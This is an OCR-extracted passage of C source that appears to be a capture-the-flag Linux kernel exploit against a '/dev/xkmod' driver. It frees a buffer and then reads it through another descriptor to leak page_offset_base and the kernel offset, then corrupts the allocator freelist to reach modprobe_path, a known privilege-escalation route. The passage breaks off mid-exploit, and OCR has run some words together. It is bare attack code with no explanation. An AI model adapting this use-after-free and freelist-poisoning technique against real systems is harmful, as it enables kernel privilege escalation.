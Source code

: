 ```
puts("");
}
}

struct Data {
size_t*buf;
u_int32_t offset;
u_int32_t size;
};

voidalloc_buf(int fd, struct Data *data)
{
    ioctl(fd,0x1111111, data);
}

voidwrite_buf(int fd, struct Data *data)
{
    ioctl(fd,0x6666666, data);
}

voidread_buf(int fd, struct Data *data)
{
    ioctl(fd,0x7777777, data);
}

intmain()
{
int xkmod_fd[5];
for(int i =0; i <5; i++){
        xkmod_fd[i]= open("/dev/xkmod", O_RDONLY);
if(xkmod_fd[i]<0){
printf("[-] %d Failed to open xkmod.", i);
exit(-1);
}
}

struct Data data ={malloc(0x1000),0,0x50};
    alloc_buf(xkmod_fd[0],&data);
    close(xkmod_fd[0]);

    read_buf(xkmod_fd[1],&data);
    qword_dump("buf", data.buf,0x50);

size_t page_offset_base = data.buf[0]&0xFFFFFFFFF0000000;
printf("[+] page_offset_base: %p\n", page_offset_base);

    data.buf[0]= page_offset_base +0x9d000-0x10;
    write_buf(xkmod_fd[1],&data);
    alloc_buf(xkmod_fd[1],&data);
    alloc_buf(xkmod_fd[1],&data);

    data.size =0x50;
    read_buf(xkmod_fd[1],&data);
    qword_dump("buf", data.buf,0x50);

size_t kernel_offset = data.buf[2]-0xffffffff81000030;
printf("kernel offset: %p\n", kernel_offset);
    modprobe_path += kernel_offset;

    close(xkmod_fd[1]);
    data.buf[0]= modprobe_path -0x10;
    write_buf(xkmod_fd[2],&data);
    alloc_buf(xkmod_fd[2],&data);
```